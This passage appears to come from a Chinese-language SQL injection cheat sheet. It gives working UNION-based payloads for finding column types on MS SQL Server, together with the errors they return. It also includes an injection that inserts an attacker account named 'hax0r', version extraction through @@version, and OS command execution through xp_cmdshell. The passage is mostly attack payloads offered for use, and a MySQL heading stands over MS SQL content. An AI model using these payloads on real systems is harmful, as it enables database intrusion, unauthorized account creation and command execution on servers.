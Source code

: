     + 可以使用CAST()和CONVERT()

    > SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL\-\-

    + 类型查询

    >11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。

    > 11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第一个字段是integer类型。

    > 11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 \-\-

    报错 – 第二个字段不是integer类型

    > 11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第二个字段是string类型。

    > 11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 \–\-

    报错 – 第三个字段不是integer

    ……

    Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.

    在遇到union错误之前会先遇到convert()错误，所以先使用convert()再用union

* 简单的注入{MSO}

    + '; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

* 有用的函数、信息收集、内置程序、大量注入笔记

    + @@version(MS)

    数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

    + INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

### 4. MySQL笔记

* sample

    + SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/

    + DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0

    HOST_NAME() IS_MEMBER (Transact-SQL)
    IS_SRVROLEMEMBER (Transact-SQL)
    OPENDATASOURCE (Transact-SQL)

    + INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"

